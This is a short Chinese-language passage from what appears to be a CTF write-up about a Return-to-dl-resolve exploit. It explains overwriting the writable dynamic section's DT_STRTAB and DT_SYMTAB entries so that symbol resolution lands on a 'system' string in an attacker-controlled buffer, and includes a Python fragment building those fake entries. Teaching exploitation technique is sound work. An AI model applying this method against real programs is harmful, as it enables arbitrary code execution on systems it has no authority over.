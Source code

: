 &#8195;此处漏洞点就不再详细论述，这里采用的是Return-to-dl-resolve的技术，不过这里不同于一般的构造。一般在寻址时都是base_addr+index，一般在伪造时都是通过伪造index，从而使其执行用户控制的缓冲区。<br>
&#8195;而这里由于*动态表所在的区域是可写的*，因此这里直接更改动态表的内容，也就是这里直接改base_addr，从而实现指向用户可控的缓冲区。<br>
&#8195;如下所示，首先获取动态表的基址，然后重新构造，第8项和第9项的内容，具体修改需要看程序的动态表分布。这里将字符串表的基址改为了buf_base + 0x20，将&#8195;symtab的基址改为了0x600f00，其中buf_base + 0x20地址刚好执行system字符串，0x600f00这里是随意给的，该机制会从symtab项中获取字符串的偏移，只要获取的是0就可以。<br>
```
dynamic_addr = 0x6006f8

    buf2_base = dynamic_addr + 8 * 0x10a
    buf2 = p64(5)  # DT_STRTAB
    buf2 += p64(buf_base + 0x20)  # fake strtab address
    buf2 += p64(6)  # DT_SYMTAB
    buf2 += p64(0x600f00)
```
